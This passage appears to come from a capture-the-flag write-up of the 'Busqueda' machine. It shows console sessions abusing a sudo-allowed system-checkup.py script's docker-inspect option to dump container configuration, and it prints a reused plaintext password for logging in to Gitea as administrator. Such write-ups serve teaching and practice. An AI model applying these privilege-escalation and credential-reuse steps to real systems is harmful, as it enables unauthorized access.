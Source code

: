 `svc` user can not read `/opt/scripts/system-checkup.py` script but can execute it with sudo.

```console
svc@busqueda:~$ sudo python3 /opt/scripts/system-checkup.py help
Usage: /opt/scripts/system-checkup.py <action> (arg1) (arg2)

     docker-ps     : List running docker containers
     docker-inspect : Inpect a certain docker container
     full-checkup  : Run a full system checkup

svc@busqueda:~$ sudo python3 /opt/scripts/system-checkup.py docker-ps
CONTAINER ID   IMAGE                COMMAND                  CREATED        STATUS       PORTS                                             NAMES
960873171e2e   gitea/gitea:latest   "/usr/bin/entrypoint…"   7 months ago   Up 3 hours   127.0.0.1:3000->3000/tcp, 127.0.0.1:222->22/tcp   gitea
f84a6b33fb5a   mysql:8              "docker-entrypoint.s…"   7 months ago   Up 3 hours   127.0.0.1:3306->3306/tcp, 33060/tcp               mysql_db

svc@busqueda:~$ sudo python3 /opt/scripts/system-checkup.py docker-inspect
Usage: /opt/scripts/system-checkup.py docker-inspect <format> <container_name>
```

There are 3 options, `docker-ps` and `docker-inspect` options is wrapper command of `docker` command.

[docker inspect \| Docker Documentation](https://docs.docker.com/engine/reference/commandline/inspect/#get-a-subsection-in-json-format)

> Get a subsection in JSON format
>
> If you request a field which is itself a structure containing other fields, by default you get a Go-style dump of the inner values. Docker adds a template function, json, which can be applied to get results in JSON format.
>
> docker inspect --format='{{json .Config}}' $INSTANCE_ID

It looks like I can use the `{{json .Config}}` format to get the container configuration.

<details><summary><code>sudo python3 /opt/scripts/system-checkup.py docker-inspect '{{json .Config}}' gitea | jq</code> command outout:</summary></details>

Since `administrator` user re-uses the same password like `cody`, I can login gitea with `administartor:yuiu1hoiu4i5ho1uh` credential as `administrator`.
